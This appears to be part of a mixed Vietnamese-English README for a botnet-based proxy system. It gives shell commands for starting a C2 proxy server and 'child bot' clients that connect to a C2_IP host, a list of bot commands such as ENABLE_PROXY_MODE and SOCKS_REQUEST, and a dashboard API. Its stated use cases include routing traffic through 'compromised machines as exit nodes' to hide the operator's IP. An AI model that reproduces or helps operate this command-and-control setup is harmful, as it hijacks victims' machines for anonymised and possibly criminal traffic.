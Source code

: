 #### 4. Health Score Thấp:
```bash
# Kiểm tra bot health
curl http://C2_IP:5001/api/status

# Restart bot nếu cần
pkill -f child_bot_server.py
python3 scripts/child_bot_server.py --c2-host C2_IP --c2-port 3333
```

### Debug Mode:
```bash
# C2 Proxy Server với debug
python3 scripts/c2_proxy_server.py --c2-host 0.0.0.0 --c2-port 3333 --proxy-port 8080 --socks-port 1080

# Web Dashboard với debug
python3 scripts/proxy_web_dashboard.py --host 0.0.0.0 --port 5001 --debug
```

## 📝 API Reference

### C2 Server Commands:

#### Bot Commands:
- `ENABLE_PROXY_MODE` - Bật chế độ proxy
- `DISABLE_PROXY_MODE` - Tắt chế độ proxy
- `PING` - Health check
- `INFO` - Lấy thông tin bot
- `HEALTH_CHECK` - Health report
- `PROXY_REQUEST:connection_id:target:port:https` - HTTP proxy request
- `SOCKS_REQUEST:connection_id:target:port` - SOCKS5 proxy request

#### Web Dashboard API:
- `GET /api/status` - Server status
- `GET /api/bots` - Bot list
- `GET /api/connections` - Active connections
- `POST /api/start_server` - Start server
- `POST /api/stop_server` - Stop server
- `POST /api/bot_command` - Send bot command

## 🎯 Use Cases

### 1. Anonymous Browsing:
- Route traffic qua multiple bot exit nodes
- Hide real IP address
- Bypass geo-restrictions

### 2. Penetration Testing:
- Use compromised machines as exit nodes
- Test network security
- Perform reconnaissance
